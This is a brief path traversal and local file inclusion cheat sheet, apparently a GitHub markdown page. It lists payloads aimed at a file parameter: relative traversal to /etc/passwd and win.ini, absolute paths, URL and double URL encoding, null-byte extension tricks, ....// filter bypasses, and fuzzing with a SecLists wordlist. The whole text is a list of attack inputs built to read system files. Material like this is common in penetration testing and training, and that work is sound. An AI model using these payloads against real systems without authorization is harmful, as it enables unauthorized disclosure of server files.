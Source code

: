 # Method
1.Standard Path Treversal via file Parameter
	?file= ../../../../etc/passwd 
	?file=..\..\..\windows\win.ini
	?file=WordlistFUZZ:\SecLists\SecLists-master\Fuzzing\LFI
2. Url encode %2e%2e%2f Double URL encode
3. Absolute path:
	?file=/etc/passwd
4. Different Starting Points:
	/var/www/images/../../../../etc/passwd
5.Different Payloads
	Url encoded 
	Nullbytes %00
	Nullbyte extension file%00.jpg (different extensions)
	double ....//
	